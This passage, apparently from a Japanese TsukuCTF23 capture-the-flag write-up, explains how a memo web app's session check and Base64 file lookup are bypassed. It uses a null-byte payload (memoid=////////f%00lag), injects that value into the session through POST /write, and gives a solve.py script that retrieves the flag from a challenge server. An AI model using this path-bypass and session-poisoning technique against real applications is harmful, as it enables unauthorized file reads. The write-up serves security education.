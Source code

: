 1. セッションチェック

    ```py
    filename = base64.b64decode(filename)
    if filename not in session["memo"]:
        return abort(403, "メモが見つかりません。👻")
    ```

1. ファイル取得

    ```py
    filename = base64.b64encode(filename).decode()
    with open(f"./memo/{filename}", "rb") as f:
        memo = f.read()
    ```

ローカル上でいろいろ試していると、リクエストパラメータの`memoid`に以下の値を入れることで、`2. セッションチェック`以外はうまく動作させることができました。  
Base64デコード時に使えない文字種（今回は`\x00`）は無視されるようです。

```text
memoid=////////f%00lag
```

あとは、`2. セッションチェック`をどうにかする方法を考えます。

`session["memo"]`には、`POST /write`を使うことで値を追加できます。  
該当箇所の`session["memo"].append(memo)`では最小文字数の制限はあるものの、ユーザの入力（`content`パラメータ）をそのまま格納しているため、任意の値を入れることができるようです。  
（Base64の処理でエラーが発生しても、session["memo"]には値が追加されます。）

従って、`content`パラメータには、`////////f%00lag`をBase64エンコードした値を入れれば良さそうです。

```py
>>> base64.b64decode('////////f\x00lag')
b'\xff\xff\xff\xff\xff\xff~V\xa0'

# \x00は無視されるっぽい
>>> base64.b64decode('////////f\x00lag')
b'\xff\xff\xff\xff\xff\xff~V\xa0'
```

後は、実行するだけです。

- solve.py

```py
#!/usr/bin/env python3
import re
import requests

url = 'http://133.130.100.34:31415/'
session = requests.Session()
session.get(url)
session.post(url + 'write', data={'content': b'\xff\xff\xff\xff\xff\xff\x7e\x56\xa0'})
res = session.post(url + 'read', data={'memoid': b'////////f\x00lag'})
print(re.search(r'TsukuCTF23{.*}', res.text).group())
```
